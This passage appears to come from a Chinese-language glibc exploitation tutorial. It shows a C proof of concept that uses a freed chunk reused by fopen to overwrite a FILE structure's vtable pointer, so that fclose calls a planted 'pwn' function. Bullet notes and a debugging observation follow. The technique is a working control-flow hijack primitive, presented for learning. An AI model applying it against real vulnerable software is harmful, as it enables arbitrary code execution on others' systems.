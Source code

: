 ```
    NULL, // seek
    pwn,  // close
    NULL, // stat
    NULL, // showmanyc
    NULL, // imbue
};

int main(int argc, char * argv[])
{   
    FILE *fp;  // _IO_FILE 结构体
    unsigned char *str;

    printf("sizeof(FILE): 0x%x\n", sizeof(FILE));

    /* _IO_FILE + vtable_ptr 分配一个 _IO_FILE_plus 结构体 */
    str = malloc(sizeof(FILE) + sizeof(void *));
    printf("freeing %p\n", str);
    free(str);

    /*打开一个文件，会分配一个 _IO_FILE_plus 结构体 ， 会使用刚刚 free 掉的内存*/
    if (!(fp = fopen("/dev/null", "r"))) {
        perror("fopen");
        return 1;
    }
    printf("FILE got %p\n", fp);

    /* 取得地址  */
    printf("_IO_jump_t @ %p is 0x%08lx\n",
           str + sizeof(FILE), *(unsigned long*)(str + sizeof(FILE)));

    /* 修改 vtable 指针 */
    *(unsigned long*)(str + sizeof(FILE)) = (unsigned long)funcs;
    printf("_IO_jump_t @ %p now 0x%08lx\n",
           str + sizeof(FILE), *(unsigned long*)(str + sizeof(FILE)));

    /* 调用 fclose 触发 close */
    fclose(fp);

    return 0;
}

```

- 首先分配一个 `_IO_FILE_plus` 大小的内存块
- 然后释放掉调用 `fopen` 分配 `_IO_FILE_plus`  结构体
- 修改 `fp` 的 `vtable` 指针到我们布局的地址
- 调用 `fclose` 函数, 进而调用 `pwn`

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1512637077462pn33x6eg.png?imageslim)

调试可以看到，分配的大小为 `0xf0`(也就是 `0xe0+0x10`) 和`_IO_FILE_plus` 的大小是一样的
